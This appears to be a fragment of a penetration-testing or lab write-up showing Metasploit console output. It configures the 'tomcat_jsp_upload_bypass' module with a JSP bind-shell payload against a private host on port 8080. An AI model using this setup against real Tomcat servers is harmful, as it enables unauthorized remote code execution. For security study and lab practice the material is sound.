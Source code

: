 ```
   TARGETURI  /                yes       The URI path of the Tomcat installation
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

```
msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > info

       Name: Tomcat RCE via JSP Upload Bypass
     Module: exploit/multi/http/tomcat_jsp_upload_bypass
   Platform: Linux, Windows
       Arch: 
 Privileged: No

Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   Java Windows
  2   Java Linux

Payload information:

Description:
  This module uploads a jsp payload and executes it.
```

```
msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > set payload java/jsp_shell_bind_tcp
payload => java/jsp_shell_bind_tcp
msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > show options

Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.25.99       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path of the Tomcat installation
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  10.0.25.99       no        The target address
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
```